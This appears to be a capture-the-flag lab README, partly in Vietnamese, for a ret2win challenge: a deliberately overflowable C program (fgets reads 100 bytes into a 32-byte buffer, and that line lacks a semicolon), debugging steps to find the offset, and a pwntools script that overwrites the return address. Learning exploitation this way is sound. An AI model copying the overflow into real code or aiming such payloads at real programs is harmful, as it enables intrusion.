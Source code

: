 # ret2win_chall_demo_file

## ret2win.c
```C
#include <stdio.h>
#include <string.h>
void win() {
    printf("\nWELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH}\n");
}
void vulnerable() {
    char buffer[32];
    printf("Enter input: ");
   fgets(buffer, 100, stdin)
}
int main() {
    setbuf(stdout, NULL);
    printf("=== 64-bit RET2WIN CHALLENGE ===\n");
    vulnerable();
    printf("Try again!\n");
    return 0;
}
```




## Kiểm tra bảo mật
### Cài pwntools
```bash
pip install pwntools
```
### checksec file
```bash
checksec chall1
```


## Tạo pattern 100 kí tự
```bash
cyclic 100
```


## Khi chương trình crash, kiểm tra giá trị EIP/RIP:
```bash
info registers rip
```


## Tìm offset từ giá trị EIP/RIP:
```bash
cyclic -l <giá_trị_eip/rip>
```


## Tìm địa chỉ hàm win
```bash
p & win
```


## Viết script (solve1.py)
```python
from pwn import *

p = process('./chall_ret2win')

offset = 40                    #Độ dài offset
win_addr = 0x401156            #Địa chỉ hàm win

payload = b'A' * offset        #Tạo input gây BOF
payload += p64(win_addr)       #Ghi đè địa chỉ hàm win lên return address

p.sendline(payload)
p.interactive()
```


## Chạy script
```bash
  python3 solve1.py
```
